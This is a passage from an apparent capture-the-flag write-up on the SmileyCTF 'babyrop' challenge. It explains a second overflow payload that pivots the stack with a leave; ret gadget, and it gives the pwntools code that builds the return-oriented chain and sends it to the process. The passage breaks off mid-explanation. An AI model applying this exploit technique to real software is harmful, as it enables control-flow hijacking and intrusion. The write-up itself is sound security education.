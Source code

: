
### 2nd Overflow

The second payload, which I've named **CEW (Chunk Execution Workflow)**, handles the execution flow. While it might appear straightforward, there are some clever tricks at play.

If you look closely, you'll notice that we're calling gadgets within `main`. So, after `gets_gadget` is called, the program ultimately executes `leave; ret` instructions at the end of its execution.

```python
payload = flat({
    offset:[
        0x404038 + 0x20,    #0x4047f0 new rbp
        gets_gadget,        #0x4047f8 new rip

        0x404018 + 0x20,    #0x404800
        print_gadget,        #0x404808

        cyclic(0x10),       #0x404810 - 0x404818

        bss + 0x30 + 0x20,  #0x404820
        gets_gadget,        #0x404828

    ]
}, filler=b'B')

input("Payload 2")
io.sendline(payload)

log.info(f"payload 2 output: {io.recv()}")
```

This means `rsp` is no longer on the stack; it will now reside at `0x4047f8`. The calculation for this is straightforward, but I can explain it further if you're unfamiliar with it.

The first payload set `RBP` to `0x4048f0` 

![c927709f31605fa32dcf088f6ead3d59.png](/assets/images/SmileyCTF-babyrop/c927709f31605fa32dcf088f6ead3d59.png)

